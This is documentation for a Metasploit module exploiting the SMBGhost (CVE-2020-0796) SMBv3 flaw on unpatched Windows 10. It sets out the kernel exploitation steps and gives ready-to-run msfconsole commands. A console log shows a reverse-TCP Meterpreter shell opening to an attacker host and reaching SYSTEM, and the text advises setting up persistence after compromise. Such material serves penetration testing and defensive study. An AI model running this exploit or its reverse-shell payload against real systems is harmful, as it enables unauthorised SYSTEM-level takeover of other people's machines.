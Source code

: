 ## Vulnerable Application
A vulnerability exists within the Microsoft Server Message Block 3.1.1 (SMBv3) protocol that can be leveraged to
execute code on a vulnerable server. This remove exploit implementation leverages this flaw to execute code
in the context of the kernel, finally yielding a session as NT AUTHORITY\SYSTEM in spoolsv.exe.

This vulnerability was patched in March 2020 but prior to that enough information was publicly available to trigger a
crash which led to pre-patch workarounds. The official recommendation from [Microsoft][1] at the time was to disable
SMBv3 compression, a feature which this exploit relies on. The module's check method will determine this value using the
registry to identify whether or not compression has been disabled.

Other recommendations included restricting access to TCP port 445 via firewalls.

### Warning
There is a high probability that even when the exploit is successful the remote target will crash within about 90
minutes. It is recommended that after a successful compromise, a persistence mechanism be established and the system be
rebooted to avoid a Blue Screen of Death (BSOD).

### Installation And Setup
Windows 10 versions 1903 and 1909 (without the patch) are vulnerable out of the box. The default setting is to have
SMBv3 compression enabled.

### Exploit Internals

The exploit is based on [this PoC][2] and [this research][3]. At a high level the steps are:

1. Leverage the vulnerability to create a read primitive for physical memory
    1. Use the vulnerability to write an `MDL` describing the physical memory to read into `KUSER_SHARED_DATA`
        * `KUSER_SHARED_DATA` is used because it exists at a known address and has read/write permissions
    1. Use the vulnerability to corrupt a `SRVNET_BUFFER_HDR` to reference the previously written MDL
    1. Attempt to negotiate with the remote server, causing the desired memory to be returned as the response
1. Use the read primitive to scan for the low stub, fingerprinting it based on a known value
1. Extract the address of the page map level 4 (PML4) from the low stub once found
    1. Store the address of the low stub because it exists within the HAL heap
1. Scan the PML4 for its self-reference entry to leak its address in virtual memory, this is also used to translate
  virtual addresses into physical addresses in the future
1. Scan the HAL heap looking for the `hal!HalpInterruptController`, fingerprinting it based on a known pattern
1. Extract the address of the `hal!HalpApicRequestInterrupt` from the `hal!HalpInterruptController`
1. Use the write primitive to overwrite the PTE for `KUSER_SHARED_DATA`, granting it the necessary privileges to be
  executable
1. Copy the shellcode (which is a combination of a kernel mode bootstrap and the usermode payload from Metasploit) to
  `KUSER_SHARED_DATA`
1. Use the write primitive to overwrite the pointer of `hal!HalpApicRequestInterrupt` in `hal!HalpInterruptController`,
  replacing it with a pointer to the shellcode
1. The shellcode queues an APC to inject the usermode payload into a spoolsv.exe instance with NT AUTHORITY\SYSTEM
  privileges

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/smb/cve_2020_0796_smbghost`
1. Set the `RHOSTS` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell, the exploitation process may take a few minutes

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf > use exploit/windows/smb/cve_2020_0796_smbghost
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(windows/smb/cve_2020_0796_smbghost) > set RHOSTS 192.168.159.76
RHOSTS => 192.168.159.76
msf exploit(windows/smb/cve_2020_0796_smbghost) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/smb/cve_2020_0796_smbghost) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(windows/smb/cve_2020_0796_smbghost) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.76:445 - Executing automatic check (disable AutoCheck to override)
[!] 192.168.159.76:445 - The service is running, but could not be validated.
[*] 192.168.159.76:445 - Found low stub at physical address 0x0000000000013000
[*] 192.168.159.76:445 - PML4 at 0x00000000001ad000 (UEFI)
[*] 192.168.159.76:445 - HAL heap found at 0xfffff7cd80000000
[*] 192.168.159.76:445 - Found PML4 self-reference entry at 0x0122
[*] 192.168.159.76:445 - Found hal!HalpInterruptController at 0xfffff7cd80001478
[*] 192.168.159.76:445 - Found hal!HalpApicRequestInterrupt at 0xfffff8035f6b7bb0
[*] 192.168.159.76:445 - KUSER_SHARED_DATA PTE NX bit cleared!
[*] Sending stage (200262 bytes) to 192.168.159.76
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.76:49675) at 2021-04-09 14:01:43 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > 
```

[1]: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/adv200005
[2]: https://github.com/chompie1337/SMBGhost_RCE_PoC
[3]: https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html
